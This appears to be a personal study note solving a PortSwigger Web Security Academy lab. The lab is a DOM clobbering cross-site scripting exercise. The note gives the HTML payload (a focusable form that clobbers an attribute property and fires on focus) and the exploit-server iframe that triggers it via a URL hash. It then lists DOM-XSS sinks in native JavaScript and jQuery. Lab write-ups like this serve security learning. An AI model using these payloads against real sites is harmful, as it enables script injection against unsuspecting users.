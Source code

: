
1. **in comment:**

*define \<form> **x** that when its focused - it print/alert + clobber the **attribute** with undefined \<input>. this form will sit and ambush any one that focuses on  \<form> **x**:*

```html
<form id=x tabindex=0 onfocus=print()><input id=attributes>

```
2. **in exploit server:**
prepare an iframe of the infected page + 500ms pause + add **#x** (hash x) to focus page on \<form>**x** and make it fire

```html
<iframe src=https://0acf00e503ebe624c0eb13bc007f00df.web-security-academy.net/post?postId=8 onload="setTimeout(()=>this.src=this.src+'#x',500)">
```

3. deliver to victim

# super cool


<span style="color:yellow;font-weight:700;font-size:30px">
materials
</span>


# Portwsigger cheetsheet:
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

# **Which sinks can lead to DOM-XSS vulnerabilities?**

The following are some of the main sinks that can lead to DOM-XSS vulnerabilities:
```js
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
```

 The following jQuery functions are also sinks that can lead to DOM-XSS vulnerabilities:
```js
add()
after()
append()
animate()
insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
```